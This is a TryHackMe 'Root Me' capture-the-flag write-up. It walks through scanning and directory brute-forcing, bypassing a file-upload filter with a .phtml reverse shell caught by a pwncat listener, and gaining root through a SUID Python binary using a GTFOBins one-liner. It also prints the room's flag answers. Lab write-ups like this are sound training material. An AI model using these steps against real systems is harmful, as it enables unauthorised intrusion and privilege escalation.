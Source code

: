 # Root Me
`url = https://tryhackme.com/room/rrootme`
`date = 01/19/2023`
---
## Enumeration

1. **Network Enumeration**
```bash
rustscan -a $IP --ulimit 6000 --scripts None
```
* Ports `22` & `80` are open which means that there is a website hosted & SSH/HTTP are the services. Hence, 2 ports are open.

2. **Directory Bruteforcing**
```bash
dirsearch -u http://$IP/
gobuster dir -u http://$IP/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

```bash
/uploads
/panel
/js
/index.php/login
```
* The `/uploads` page shows us the directory listing for this website.
* The `/panel` page allows you to upload files; mostly this page has an artbitrary file upload vuln.
* The `/js` page is just some 'typewriter' java script code. I dont think there is much use to it right now.
* `/index.php/login` page shows us a prompt that gives us the user name  - `root@rootme:~#`.
---

## Exploitation

* On uploading the file on `/panel` I see that ".php" files are not allowed. Which is why I first renmaes the file to `reshell.txt`, which succeeded but could not be executed. So I re-renamed the file to `revshell.phtml` which did the trick.

`pwncat-cs -lp 9999 # $LPORT`

* Shell received.
---

## Post Exploitation

1. Find the `user.txt` flag by literally searching for it in the root directory.
    ```bash
    find / -name "user.txt" -type f 2>/dev/null
    ```
which will give you the user flag - THM{y0u_g0t_a_sh3ll}

2. In order for us to switch user to root, we do some enumeration. We can check `cat /etc/crontab`. There are no crontabs. Another thing we can do is find SUID binaries in this machine --
Use command - `find / -perm -u=s -type f 2>/dev/null`
which returns -
```bash
-rwsr-sr-x 1 root root 3665768 Aug  4  2020 python
```

3. For performing privesc, get the command from gtfobins -
`/usr/bin/python -c ‘import os; os.execl(“/bin/sh”, “sh”, “-p”)’`

which should give you root. Now you can just -
```bash
cd /root
cat root.txt
```
this will give you the root flag - THM{pr1v1l3g3_3sc4l4t10n}

fin.
